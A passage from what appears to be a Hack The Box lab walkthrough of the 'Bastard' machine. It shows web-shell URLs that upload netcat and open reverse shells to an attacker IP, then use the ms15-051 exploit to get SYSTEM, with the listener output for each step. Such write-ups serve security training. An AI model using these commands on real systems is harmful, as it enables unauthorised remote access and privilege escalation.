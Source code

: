 Check file uploaded is working:

![website_fexec](/assets/images/2020-07-03-16-09-35.png)

Browse to the url here:

```text
http://10.10.10.9/spen.php?fupload=nc64.exe&fexec=nc64.exe%20-e%20cmd%2010.10.14.34%208081%22
```

Switch to a waiting NC:

```text
root@kali:~/htb/bastard# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.9] 49214
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

Now browse to:

```text
http://10.10.10.9/spen.php?fupload=ms15-051x64.exe&fexec=ms15-051x64.exe%20%22nc64.exe%20-e%20cmd%2010.10.14.34%208082%22
```

Look at the second waiting NC:

```text
root@kali:~/htb/bastard# nc -lvnp 8082
listening on [any] 8082 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.9] 49219
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
